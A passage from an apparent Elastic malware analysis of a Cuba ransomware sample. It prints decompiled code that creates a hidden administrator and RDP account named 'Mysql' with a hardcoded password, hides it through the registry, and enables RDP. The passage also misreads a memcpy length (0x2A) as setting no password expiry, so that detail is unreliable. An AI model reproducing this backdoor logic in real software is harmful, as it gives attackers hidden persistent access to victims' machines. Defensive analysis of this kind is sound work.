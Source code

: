 ![](/assets/images/cuba-ransomware-campaign-analysis/image24-cuba-ransomware-elastic.png)

The Elastic Malware Analysis and Reverse Engineering (MARE) team was able to [<u>find this file in VirusTotal</u>](https://www.virustotal.com/gui/file/728994be6b928de3d1c7b49ca1c79db8656c1cf4b95a1e508a6be48c6ab407da/detection) and pull it down for binary analysis.

```
BOOL sub_4013B0()
{
  int v1;
  int v2;
  WCHAR REMOTE_DESKTOP_USERS_groups_list[256];
  WCHAR ADMINS_groups_list[256];
  char password[44];
  wchar_t username[9];
  v2 = enum_local_groups(DOMAIN_ALIAS_RID_ADMINS, ADMINS_groups_list);
  v1 = enum_local_groups(DOMAIN_ALIAS_RID_REMOTE_DESKTOP_USERS, REMOTE_DESKTOP_USERS_groups_list);
  if ( v2 || v1 )
  {
    wcscpy(username, L"Mysql");
    qmemcpy(password, L"KJaoifhLOaiwdhadx1@!", 0x2Au);
    if ( Add_user((int)username, (int)password) )
    {
      if ( v2 )
        add_user_groups(ADMINS_groups_list, (int)username);
      if ( v1 )
        add_user_groups(REMOTE_DESKTOP_USERS_groups_list, (int)username);
      hide_accountName(username); SpecialAccounts\\UserList regkey
    }
  }
  return enable_RDP();
}
```

MARE determined that this executable performs several functions:

Enumerates local administrator and RDP groups.

```
 WCHAR REMOTE_DESKTOP_USERS_groups_list[256];
  WCHAR ADMINS_groups_list[256];
  char password[44];
  wchar_t username[9];
  v2 = enum_local_groups(DOMAIN_ALIAS_RID_ADMINS, ADMINS_groups_list);
  v1 = enum_local_groups(DOMAIN_ALIAS_RID_REMOTE_DESKTOP_USERS, REMOTE_DESKTOP_USERS_groups_list);
  if ( v2 || v1 )
```

Creates a new user Mysql, sets the password to KJaoifhLOaiwdhadx1@!, and sets no expiration date (0x2Au).

```
  wcscpy(username, L"Mysql");
    qmemcpy(password, L"KJaoifhLOaiwdhadx1@!", 0x2Au);
    if ( Add_user((int)username, (int)password) )
```

